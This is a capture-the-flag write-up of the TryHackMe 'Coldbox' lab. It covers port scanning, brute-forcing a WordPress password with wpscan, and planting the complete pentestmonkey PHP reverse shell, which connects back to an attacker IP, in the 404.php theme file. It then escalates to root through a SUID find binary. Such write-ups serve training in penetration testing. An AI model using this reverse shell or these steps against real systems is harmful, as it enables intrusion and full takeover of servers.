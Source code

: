 * * *
 ### Lab:Coldbox
 ### Platform: TryHackme
* * *

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3eb36702-a693-43f9-b8d4-ac18a0183e78)

### Enumeration

- Rustscan's result states that http is running on port 80 and ssh is running on 4512
      
        ❯ rustscan -a 10.10.134.134 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.134.134:80
      Open 10.10.134.134:4512
      PORT     STATE SERVICE REASON  VERSION
      80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: ColddBox | One more machine
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      |_http-generator: WordPress 4.1.31
      4512/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
      |   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
      |   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- Fuzzing for directories with ffuf reveals a directory named `/hidden/`
 
    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e2da5676-3bd6-4612-a5cc-1bb49fef4d1f)
   
- `/Hidden/`'s index page reveals a lot of usernames and contains a message stating that user `c0ldd`'s password has been reset

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/75c276a0-edde-4abe-848b-140bc0ea67b0)

- I bruteforced c0ldd's password with wpscan

  `wpscan --url http://10.10.134.134/ -U usernames.txt -P rockyou.txt`

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2d97401e-ced9-4f74-8843-9588c292cc48)

- Since we have admin access,with the aid of the 404.php page, we can pop a pentest reverse shell with the aid of the 404.php template page because it executes php code

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c82ec2b0-307a-4178-afef-9110b4cca95f)

- Example of a pentestmonkey php reverse shell,set up a listener,copy and save the revshell to the 404.php file

           <?php
       // php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
       // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
       
       set_time_limit (0);
       $VERSION = "1.0";
       $ip = '10.8.158.229';
       $port = 1337;
       $chunk_size = 1400;
       $write_a = null;
       $error_a = null;
       $shell = 'uname -a; w; id; bash -i';
       $daemon = 0;
       $debug = 0;
       
       if (function_exists('pcntl_fork')) {
       	$pid = pcntl_fork();
       	
       	if ($pid == -1) {
       		printit("ERROR: Can't fork");
       		exit(1);
       	}
       	
       	if ($pid) {
       		exit(0);  // Parent exits
       	}
       	if (posix_setsid() == -1) {
       		printit("Error: Can't setsid()");
       		exit(1);
       	}
       
       	$daemon = 1;
       } else {
       	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
       }
       
       chdir("/");
       
       umask(0);
       
       // Open reverse connection
       $sock = fsockopen($ip, $port, $errno, $errstr, 30);
       if (!$sock) {
       	printit("$errstr ($errno)");
       	exit(1);
       }
       
       $descriptorspec = array(
          0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
          1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
          2 => array("pipe", "w")   // stderr is a pipe that the child will write to
       );
       
       $process = proc_open($shell, $descriptorspec, $pipes);
       
       if (!is_resource($process)) {
       	printit("ERROR: Can't spawn shell");
       	exit(1);
       }
       
       stream_set_blocking($pipes[0], 0);
       stream_set_blocking($pipes[1], 0);
       stream_set_blocking($pipes[2], 0);
       stream_set_blocking($sock, 0);
       
       printit("Successfully opened reverse shell to $ip:$port");
       
       while (1) {
       	if (feof($sock)) {
       		printit("ERROR: Shell connection terminated");
       		break;
       	}
       
       	if (feof($pipes[1])) {
       		printit("ERROR: Shell process terminated");
       		break;
       	}
       
       	$read_a = array($sock, $pipes[1], $pipes[2]);
       	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
       
       	if (in_array($sock, $read_a)) {
       		if ($debug) printit("SOCK READ");
       		$input = fread($sock, $chunk_size);
       		if ($debug) printit("SOCK: $input");
       		fwrite($pipes[0], $input);
       	}
       
       	if (in_array($pipes[1], $read_a)) {
       		if ($debug) printit("STDOUT READ");
       		$input = fread($pipes[1], $chunk_size);
       		if ($debug) printit("STDOUT: $input");
       		fwrite($sock, $input);
       	}
       
       	if (in_array($pipes[2], $read_a)) {
       		if ($debug) printit("STDERR READ");
       		$input = fread($pipes[2], $chunk_size);
       		if ($debug) printit("STDERR: $input");
       		fwrite($sock, $input);
       	}
       }
       
       fclose($sock);
       fclose($pipes[0]);
       fclose($pipes[1]);
       fclose($pipes[2]);
       proc_close($process);
       
       function printit ($string) {
       	if (!$daemon) {
       		print "$string\n";
       	}
       }
       
       ?>

- Set up a netcat listener and to trigger the shell,navigate to `<scheme://ip/wp-content/themes/twentyfifteen/404.php>` to trigger the shell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/69087b6a-73c0-4144-8275-e61bdb5d8661)

- Shell access

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/feac15af-7973-430c-84f6-bd08b1900a13)

### PRIVESC 

- Running `find -perm -u=s -type f 2>/dev/null` reveals that the `find` binary has a suid bit

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e8229816-85f8-49b7-8f2c-279911c7df67)

- I got a one liner from gtfobins to escalate privileges

       find . -exec /bin/sh -p \; -quit

- Root access

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/af8a3d90-e516-400f-9f38-b4c2b614cabb)

